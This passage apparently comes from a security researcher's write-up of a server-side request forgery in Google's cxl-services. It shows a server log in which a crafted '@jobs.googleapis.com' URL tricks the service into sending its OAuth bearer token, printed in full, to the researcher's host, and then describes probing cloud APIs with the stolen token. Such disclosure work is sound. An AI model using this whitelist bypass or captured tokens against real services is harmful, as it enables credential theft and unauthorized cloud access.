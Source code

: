 And here comes the interesting part, what was in the request arriving at my webserver? As we already discussed, `cxl-services` had to somehow authenticate to the `jobs` API to be able to proxy the product page demo requests to it.

Setting my simple [Python HTTPS server](https://gist.github.com/xdavidhu/9491a9918b4dfbaffb789a8b9f2d1672) into `--verbose` mode, and making `cxl-services` request it once again allowed me to see the whole request going to my webserver, including all of the headers:

```
xdavid@scannr:~/webserver$ sudo httpsserver --verbose
[verbose] Verbose mode enabled.
[+] Starting server. URL: https://sfmnev.vps.xdavidhu.me/


[verbose]
('35.187.132.128', 44083)
[I] Reverse DNS failed. 

Host: sfmnev.vps.xdavidhu.me
content-type: application/json
authorization: Bearer ya29.c.KnT2B01b-kebLicHqMkilaSXkJCfy2R5EouzglkdlZUeBWRBW(GNaGILMgosUyDOSxSAp0AGTqC10692v_K6_B39nlezaV5ntV3MdJ-ZcipXA3zt1CpbgkANgNRFrshzCqzc9Vy_AimSdan8F-ZngZec081 
X-Cloud-Trace-Context: 5989e540147Sof691f39a0183161639/7393502370317147947
Accept-Encoding: gzip, deflate
Connection: keep-alive
User-Agent: Python-httplib2/0.14.0 (gzip) AppEngine-Google; (http://code.google.com/appengine; appid: s~cxl-services)
Accept-Encoding: gzip,deflate,br

35.187.132.128 - - [22/Mar/2021 17:23:29] code 404, message File not found
35.187.132.128 - - [22/Mar/2021 17:23:29] "GET /@jobs.googleapis.com/ HTTP/1.1" 404 -
```

Oh, there is something! `cxl-services` is setting the `authorization` header to an access token on every outgoing request to authenticate to the `jobs` and other APIs. Since we tricked the whitelist, now it also sent an access token to our malicious web server.

*What can we use this access token for?*

#### Chapter 2: <br/>what did we steal? {#chapter2}

The token that we stole was an OAuth 2.0 access token with the identity of (most probably) the `cxl-services` [App Engine service account](https://cloud.google.com/appengine/docs/standard/python/service-account). With that token, we could call Google Cloud APIs in the name of, and with all of the privileges of `cxl-services`.

We might wonder, does this token/identity have access to some GCP resources (VMs, storage buckets, etc.) other than the `jobs` API? In the Amazon AWS universe, we would have a much easier time here. Unfortunately in Google Cloud, you can't ask the question *"what do I have access to?"*. You can only go to resources one-by-one, and ask *"do I have access to **this?**"*. Dylan Ayrey and Allison Donovan have made [an awesome talk](https://www.youtube.com/watch?v=Ml09R38jpok) about this behavior.

Because of this, the best I could do was to start "brute-forcing" and call different APIs with the stolen access token to see if I had access to any resources.
